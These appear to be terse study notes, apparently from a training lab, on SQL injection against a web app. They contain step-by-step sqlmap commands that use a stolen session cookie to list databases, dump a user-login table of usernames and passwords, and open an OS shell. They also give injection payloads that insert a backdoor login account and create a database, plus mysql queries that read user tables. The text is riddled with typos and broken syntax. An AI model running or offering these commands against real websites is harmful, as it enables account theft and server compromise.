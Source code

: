 Tools 
1) N staltker web vuln analysis
2) In the vuln web app go to console type document.cookie
	1) get the cookie value
	2) `sqlmap -u "http://IP?id=?" --cookie="X" --dbs`
to insert a username into the database we can user
`blah;insert into login values ('john',apple123');--`

then login using john as user  and apple123 as pass


To create a database 
`blah;create database mydatabase;--`  



https://www.youtube.com/watch?v=iD84waJKYh0


SQL MAP

Open the vulnerable website 
Copy the cookie from the inspect element
Open the terminal to use sqlmap 
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl="; --dbs
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0" -D moveiscope --tables
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0" -D moviescope -T user-Login --dump

You will get all the Useraname and Passwords of the website.

------------------------------------------------------------------------------------------------------------------------------------------------------

sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0" --os-shell
It opens up the Interactive OS shell.

-------------------------------------------------------------------------------------------------------------------------------------------------------

mysql -U qdpmadmin -h 192.168.1.8 -P passwod 
show databases;
use qdpm;
show tables'
select * from users;
show dtabases;
use staff;
show tables;
select * from login;
select * from user;

When you have username and Password for the database.
